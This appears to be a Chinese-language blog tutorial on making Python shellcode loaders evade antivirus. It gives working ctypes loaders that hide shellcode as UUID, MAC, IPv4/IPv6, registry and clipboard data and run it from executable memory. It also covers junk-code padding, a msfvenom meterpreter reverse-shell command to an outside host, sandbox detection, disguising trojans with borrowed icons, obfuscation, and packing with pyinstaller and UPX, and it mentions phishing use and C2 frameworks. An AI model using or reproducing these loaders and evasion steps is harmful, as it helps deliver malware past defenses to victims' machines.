


动态免杀
花指令免杀
思路：花指令主要是用来扰乱动态扫描的，向程序shellcode或特征代码区域增添垃圾指令。加花的原理就是通过添加花指令（一些垃圾加密数据，无意义的条件判断等等）干扰杀毒软件正常的检测。
1、随意添加，exec执行即可。不知道是不是操作问题，加入花指令也没办法绕过WD。
junk_code1 ="""
import random
def partition(test_arr, low, high):
i = (low - 1)
pivot = test_arr[high]
for j in range(low, high):
if test_arr[j] <= pivot:
i = i + 1
test_arr[i], test_arr[j] = test_arr[j], test_arr[i]
test_arr[i + 1], test_arr[high] = test_arr[high], test_arr[i + 1]
return i + 1
def quick_sort(test_arr, low, high):
if low < high:
pi = partition(test_arr, low, high)
quick_sort(test_arr, low, pi - 1)
quick_sort(test_arr, pi + 1, high)
test_arr= []
for i in range(59999):
test_arr.append(random.random())
n= len(test_arr)
quick_sort(test_arr,0, n - 1)
"""
junk_code2 ="""
import re
re.search('www','www.runoob.com').span()
re.search('com','www.runoob.com').span()
line= "Cats are smarter than dogs ok in shakdhaksdas";
searchObj= re.search(r'(.*) are (.*?) .*', line, re.M | re.I)
def double(matched):
value = int(matched.group('value'))
return str(value * 2)
s= 'A23G4HFD567'
re.sub('(?P<value>\d+)',double, s)
"""
junk_code3 ="""
import base64
st= 'wo gan jue wo ma shang jiu yao bei defender gan diao a ba a bachonogchong chongcong!'.encode()
res= base64.b64encode(st)
aaa= res.decode()
res= base64.b64decode(res)
bbb= res.decode()
"""
uuid实现内存加载
思路：像之前介绍的方法本质上都是静态的特征码免杀技术。最后都是通过开辟一块内存,然后直接将shellcode写入到对应的内存中并且该内存是可读可写可执行的状态, 那么这种方式太容易被AV所查杀。如果是利用Windows自身提供的API来将加密或者封装好的shellcode写入到内存执行的话,将会大大增加查杀的难度。
1、uuid官方介绍：https://docs.python.org/zh-cn/3/library/uuid.html

2、生成uuid shellcode
# -*- coding: UTF-8 -*-
import uuid
buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\"
# 如果不能被16整除，就补充剩余的字节
if len(buf) % 16 != 0:
replenish_byte = b"\x00" * (16 - len(buf) % 16)
buf = buf + replenish_byte
# 字节转uuid
shellcode = []
for i in range(len(buf) // 16):
bytes_a = buf[i * 16:16 + i * 16]
b = uuid.UUID(bytes_le=bytes_a)
shellcode.append(str(b))
print(shellcode)
3、使用python2编译：
# -*- coding: UTF-8 -*-
import ctypes
shellcode = ['e48348fc-e8f0-00c8-0000-415141505251', 'd2314856-4865-528b-6048-8b5218488b52', ...]
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode) * 16, 0x1000, 0x40)
rwxpage1 = rwxpage
for i in shellcode:
ctypes.windll.Rpcrt4.UuidFromStringA(i, rwxpage1)
rwxpage1 += 16
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
MAC实现内存加载
思路：内存加载的一种方式就是去寻找各种API,MSDN上提供了各式各样的API,如果某一种API函数实现了某种可逆的变形并且最终写入到二进制指针当中,那么也就实现了内存加载。
1、mac shellcode
# -*- coding: UTF-8 -*-
import ctypes
buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00..."
# 如果不能被6整除，就补充剩余的字节
if len(buf) % 6 != 0:
replenish_byte = b"\x00" * (6 - len(buf) % 6)
buf = buf + replenish_byte
# 申请内存
macmem = ctypes.windll.kernel32.VirtualAlloc(0, len(buf)/6*17, 0x1000, 0x40)
for i in range(len(buf)/6):
bytes_a = buf[i*6:6+i*6]
ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)
#a = ctypes.string_at(macmem, len(buf) * 3 - 1)
#print(a)
mac = []
for i in range(len(buf)/6):
d = ctypes.string_at(macmem+i*17,17)
mac.append(d)
print(mac)

2、python2 加载
# -*- coding: UTF-8 -*-
import ctypes
mac = ['FC-48-83-E4-F0-E8', 'C8-00-00-00-41-51', ...]
ptr = ctypes.windll.kernel32.VirtualAlloc(0, len(mac) * 6, 0x1000, 0x40)
# 通过RtlEthernetStringToAddressA函数，将mac值转为二进制写入内存rwxpage是内存指针，表示从该指针位置写入rwxpage+=6是控制指针的位置，每写入一个mac二进制需要将指针移动6个字节
rwxpage = ptr
for i in range(len(mac)):
ctypes.windll.Ntdll.RtlEthernetStringToAddressA(mac[i], mac[i], rwxpage)
rwxpage += 6
ctypes.windll.kernel32.VirtualProtect(ptr, len(mac) * 6, 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
3、ReallocADsMem 合体版
import ctypes
shellcode = b"\xfc\x48\x83......"
macmem = ctypes.windll.Activeds.AllocADsMem(len(shellcode)/6*17)
for i in range(len(shellcode)/6):
bytes_a = shellcode[i*6:6+i*6]
ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)
list = []
for i in range(len(shellcode)/6):
d = ctypes.string_at(macmem+i*17,17)
list.append(d)
# 第一次申请的内存，存入shellcode
ptr = ctypes.windll.Activeds.AllocADsMem(len(list)*6)
rwxpage = ptr
for i in range(len(list)):
ctypes.windll.Ntdll.RtlEthernetStringToAddressA(list[i], list[i], rwxpage)
rwxpage += 6
# 第二次申请内存，复制第一次申请内存的内容。
ptr2 = ctypes.windll.Activeds.ReallocADsMem(ptr, len(list)*6, len(list)*6)
ctypes.windll.kernel32.VirtualProtect(ptr2, len(list)*6, 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr2, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
IPV4/IPV6实现内存加载
思路：RtlIpv4AddressToStringA函数来将Shellcode转换为ipv4格式，RtlIpv4StringToAddress 函数将 IPv4 地址的字符串表示形式转换为二进制 IPv4 地址。
1、IPV4 python2代码实现：
# -*- coding: UTF-8 -*-
import ctypes
from ctypes import *
buf = b""
#干扰代码
whnd = ctypes.windll.kernel32.GetConsoleWindow()
if whnd != 0:
if 1 != 2:
ctypes.windll.user32.ShowWindow(whnd, 0)
ctypes.windll.kernel32.CloseHandle(whnd)
# 如果不能被4整除，就补充剩余的字节
if len(buf) % 4 != 0:
replenish_byte = b'\x00' * (4 - len(buf) % 4)
buf = buf + replenish_byte
shellcode = buf
#申请ipv4虚拟内存
ipv4_address = ctypes.windll.kernel32.VirtualAlloc(0,ctypes.c_int(len(shellcode)//4*16),0x3000,0x40)
#将tlIpv4AddressToStringA将shellcode转换为ipv4字符串
for i in range(len(shellcode)//4):
cut_byte = shellcode[i*4:4+i*4]
ctypes.windll.Ntdll.RtlIpv4AddressToStringA(cut_byte, ipv4_address+i*16)
ipv4_list = []
#获取IPv4 地址的字符串
for i in range(len(shellcode)//4):
ipv4_str = ctypes.string_at(ipv4_address+i*16,16)
ipv4_list.append(ipv4_str)
#申请shellcode内存
ptr = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x3000, 0x40)
ptr1 = ptr
#RtlIpv4StringToAddressA将ipv4转为二进制写入内存，内存递归增长4
for i in range(len(ipv4_list)):
ctypes.windll.Ntdll.RtlIpv4StringToAddressA(ipv4_list[i],False,ipv4_list[i],ptr1)
ptr1 += 4
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
2、IPV6 python2代码实现：
# -*- coding: UTF-8 -*-
import ctypes
from ctypes import *
buf = b""
#干扰代码
whnd = ctypes.windll.kernel32.GetConsoleWindow()
if whnd != 0:
if 1 != 2:
ctypes.windll.user32.ShowWindow(whnd, 0)
ctypes.windll.kernel32.CloseHandle(whnd)
# 如果不能被16整除，就补充剩余的字节
if len(buf) % 16 != 0:
replenish_byte = b'\x00' * (16 - len(buf) % 16)
buf = buf + replenish_byte
shellcode = buf
#申请ipv6虚拟内存
ipv6_address = ctypes.windll.kernel32.VirtualAlloc(0,ctypes.c_int(len(shellcode)//16*39),0x3000,0x40)
#将tlIpv6AddressToStringA将shellcode转换为ipv4字符串
for i in range(len(shellcode)//16):
cut_byte = shellcode[i*16:16+i*16]
ctypes.windll.Ntdll.RtlIpv6AddressToStringA(cut_byte, ipv6_address+i*39)
ipv6_list = []
#获取IPv4 地址的字符串
for i in range(len(shellcode)//16):
ipv6_str = ctypes.string_at(ipv6_address+i*39,39)
ipv6_list.append(ipv6_str)
#申请shellcode内存
ptr = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode)*16, 0x3000, 0x40)
ptr1 = ptr
#RtlIpv6StringToAddressA将ip6转为二进制写入内存，内存递归增长16
for i in range(len(ipv6_list)):
ctypes.windll.Ntdll.RtlIpv6StringToAddressA(ipv6_list[i],'NULL',ptr1)
ptr1 += 16
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
注册表实现内存加载
思路：先利用
RegSetValueExA往HKLM_CURRWNT_USER注册表中写入shellcode，再利用RegQueryValueExA函数是读取注册表中内容的，并存到申请的内存中去执行。
1、python2/python3 加载代码：
# -*- coding: UTF-8 -*-
import ctypes
from ctypes.wintypes import DWORD
buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00..."
ctypes.windll.Advapi32.RegSetValueExA(-2147483647, "bypass", None, 3, buf, len(buf))
LPBYTE = ctypes.POINTER(ctypes.c_byte)
ctypes.windll.kernel32.VirtualAlloc.restype = LPBYTE
ptr = ctypes.windll.kernel32.VirtualAlloc(0, 800, 0x3000, 0x40)
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "bypass", 0, 0, 0, ctypes.byref(data_len))
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647,"bypass",0,None,ptr,ctypes.byref(data_len))
ctypes.windll.Advapi32.RegDeleteValueA(-2147483647, "bypass")
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
剪切板实现内存加载
思路：
RegisterClipboardFormat函数是user32.dll库中的函数，可以用来注册新的剪贴板格式。GetClipboardFormatName函数是user32.dll库中的函数，可以从剪贴板中检索指定注册格式的名称，并将名称复制到指定的缓冲区。
1、防止截断，去除\x00：
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.128 lport=8080 -f py -b="\x00"
2、python2加载：
# -*- coding: UTF-8 -*-
import ctypes
from ctypes import *
buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00..."
# buf长度不能大于500字节, 这里需要分段写入
sc_list = []
if len(buf) > 200:
for i in range(len(buf) // 200 + 1):
sc_list.append(buf[0 + i * 200 :(1 + i) * 200])
# print(sc_list)
ptr = ctypes.windll.kernel32.VirtualAlloc(0, len(buf)+1, 0x3000, 0x40)
# 分段写入内存
ptr1 = ptr
for i in sc_list:
# 创建剪切板
name = ctypes.windll.user32.RegisterClipboardFormatW(i)
# 读取剪切板
ctypes.windll.user32.GetClipboardFormatNameW(name, ptr1, len(i))
ptr1 += len(i)
handle = ctypes.windll.kernel32.CreateThread(0,0,ptr,0,0,0)
ctypes.windll.kernel32.WaitForSingleObject(handle,-1)
绕过沙箱检测
思路：可以适当加延长执行shellcode的时间，比如说加个sleep函数。简单的反沙箱技术,当今大多数真实机具有4GB以上的RAM,我们可以检测RAM是否大于4GB来判断是否是真实的运行机器,同样大多数真实机拥有4核心cpu，许多在线检测的虚拟机沙箱是2核，我们可以通过核心数来判断是否为真实机器或检测用的虚拟沙箱，当然反沙箱还有更多高端操作以及其他判断源，例如可以从系统开机时间、临时文件夹的文件数目例如我们编写如下一个程序,将收集好的信息通过socket回调给服务器,然后服务器监听对应的端口即可:我们主要获取CPU核心数和物理内存数,以某沙箱为例:可以看到该沙箱的环境为1核2G,并且其桌面都是一些随机命名的检测文件等,因此这就可以作为我们反沙箱的要点:这里我们判断4核2G之下就为虚拟机,如果是虚拟机我们就直接退出,不在继续进行相关操作,对于一般的沙箱而言也能够有效避免被沙箱获得IP或者网络通信情况使用该内存加载方式和前两者区别同样不大,市面上主流杀软都能够过,免杀效果尚好。
木马资源修改
1、随便找个exe文件，把它和木马一起放进restorator，然后替换资源文件后保存。

2、保存后图标和软件信息会改变。

缩小和混淆代码
支持python2 和 python3
1、缩小代码
pip install python-minifier
pyminify .\bypass.py --output bypass-mini.py

2、混淆：https://pyob.oxyry.com/

EXE加壳与打包
对比版本的话，python2打包后的文件体积会比较小，当然使用不同的打包工具，免杀效果也会不同。
pyinstaller
python2：pyinstaller==3.2.1
pyinstaller.exe -F -w .\bypass.py
python3：pyinstaller==5.4，可以尝试一下加密参数：--key，可以对依赖库进行了加密。使用这个方法需要代码分成好几个py文件，用导包的形式加载。
pyinstaller -F -w .\shellcode.py --key test123
upx（压缩壳）
upx是一款压缩壳程序，配合pyinstaller可以缩小exe的体积。
pyinstaller -F -w .\shellcode.py --upx-dir D:\JammnyTools\Others\upx-4.0.0-win64 --clean
shielden（加密壳）
最后的总结
学习免杀的过程很有意思，不过python生成的可执行文件太大了，不太适合钓鱼使用。不过好在免杀效果还不错，但是免杀都是有时效性的，如果已经用尽了各种办法都绕不过杀软，不妨试试其他同样优秀的C2框架如：havoc，或者尝试冷门语言做免杀如：vlang。